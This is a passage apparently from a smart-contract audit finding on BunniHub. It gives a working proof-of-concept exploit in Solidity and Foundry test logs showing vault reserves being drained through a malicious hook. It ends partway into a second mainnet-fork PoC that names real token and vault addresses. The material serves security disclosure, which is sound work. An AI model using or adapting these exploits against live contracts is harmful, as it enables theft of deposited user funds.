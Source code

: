 It is also possible to drain all vault reserves held by the `BunniHub` by modifying the token ratio bounds of the malicious hook as follows:

```solidity
minRawTokenRatio0: 0,           // set to 0% in order to have all deposited funds accounted into the vault
targetRawTokenRatio0: 0,        // set to 0% in order to have all deposited funds accounted into the vault
maxRawTokenRatio0: 0,           // set to 0% in order to have all deposited funds accounted into the vault
```

With this modification, the target raw balance for the vault to drain is set to 0% in order to have all the liquidity accounted into the vault. This way, when the `BunniHub` attempts to transfer the funds to the hook, it will have to withdraw the funds from the vault which can be exploited to repeatedly burn vault shares from other pools.

The attack setup should also be modified slightly to calculate the optimal number of iterations:

```solidity
uint256 sharesToMint = ERC4626(USDCVault).previewDeposit(initialToken0Deposit) - 1e6;
CustomHook(payable(customHook)).initiateAttack(
    IBunniHub(address(hub)),
    maliciousKey,
    USDCVault,
    sharesToMint,
    Vector.HOOK_HANDLE_SWAP,
    ERC4626(USDCVault).balanceOf(address(hub)) / sharesToMint
);

Output:
```bash
Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] test_ForkHookHandleSwapDrainReserveBalancePoC() (gas: 23881409)
Logs:
  BunniHub token0 raw balance before 209036268296
  BunniHub token0 vault reserve before 398583692087
  MaliciousHook token0 balance before 0
  BunniHub token0 raw balance after 209036268296
  BunniHub token0 vault reserve after 6790331257
  MaliciousHook token0 balance after 400772811256
  Stolen USDC 390772811256
```

A similar attack can be executed through withdrawal of malicious Bunni token shares as shown in the PoC below:

```solidity
function test_ForkWithdrawPoC() public {
    uint256 mainnetFork;
    string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
    mainnetFork = vm.createFork(MAINNET_RPC_URL);
    vm.selectFork(mainnetFork);
    vm.rollFork(22347121);

    address USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address USDCVault = 0x3b028b4b6c567eF5f8Ca1144Da4FbaA0D973F228; // Euler vault

    IERC20 token0 = IERC20(WETH);
    IERC20 token1 = IERC20(USDC);

    while (address(token0) > address(token1)) {
        token0 = IERC20(address(new ERC20Mock()));
    }

    poolManager = IPoolManager(0x000000000004444c5dc75cB358380D2e3dE08A90);
```